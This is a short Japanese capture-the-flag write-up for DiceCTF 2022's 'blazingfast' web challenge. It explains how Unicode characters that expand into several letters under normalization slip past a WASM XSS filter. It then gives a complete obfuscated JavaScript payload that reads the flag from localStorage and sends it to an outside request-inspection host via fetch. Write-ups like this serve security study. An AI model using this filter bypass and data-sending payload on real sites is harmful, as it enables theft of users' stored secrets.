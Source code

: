 ```yaml
---
layout: chall
ctf_name: DiceCTF_2022
problem_name: blazingfast
genre: web
solved_date: 2022-02-05
during_ctf: true
tag: [wasm, unicode, jsfuck]
---
```


### 概要

WASM にて実装されている MoCkINg CaSe 化と、それをラップする HTML アプリケーションが与えられる。Admin Bot に対して XSS できれば勝ち。

[!details:コード:(!src:blazingfast.c:c)

(!src:index.js:js)]

### 解法

Unicode には、正規化処理を行う時に複数文字として処理される文字が存在する。例えば、文字 `ﬄ` は `FFL` といったように複数文字になる。これを用いて、wasm モジュール内で行われている XSS チェックをバイパスすることができる。

バイパスした後は、大文字化された文字によってスクリプトを組まなければいけない。また、入力には 1000 文字の文字数制限がある。バイパスのために 1/3 を特殊文字で埋めなければいけないため、実質的に 666 文字制限となっている。

BigInt.toString(36) にて 36 進数としての文字列化ができることを用いるために、toString に必要な文字を `(![]+[])` が `"false"` として評価されるといったことを用いて作った。結果として、スクリプトは特段の文字列削減の工夫をせずともおおよそ 500 文字程度となった。

```js
// "false"
FA=![]+[];
// "true"
TR=!![]+[];
// "[object Object]"
OB={}+[];
// "undefined"
UN=""[0]+[];
// "constructor"
CT=`${OB[5]}${OB[1]}${UN[6]}${FA[3]}${OB[6]}${TR[1]}${TR[2]}${OB[5]}${OB[6]}${OB[1]}${TR[1]}`;
// "function String() { [native code] }"
ST=([]+[])[CT]+[];
// "toString"
TS=`${TR[0]}${OB[1]}S${TR[0]}${TR[1]}${UN[5]}${UN[6]}${ST[14]}`;

// X => eval(`${X}n`).toString(36)
F=(X)=>E(`${X}${UN[1]}`)[TS](36);
// E=eval
F[CT](`E=${(693741)[TS](36)}`)();

// eval('localStorage.getItem("flag")')
FLAG=E(`${F("36407613")}S${F("1795103150")}.${F("21269")}I${F("38110")}("${F("727432")}")`);

FETCH=F("25885457");
HTTPS=F("29945008");
RI=F("6059548247909300458845003");
COM=F("16438");
INSPECT=F("40621018349");
// eval('fetch("https://requestinspector.com/inspect/NEKO?fakeflag")')
E(`${FETCH}("${HTTPS}://${RI}.${COM}/${INSPECT}/NEKO?${FLAG}")`);
```

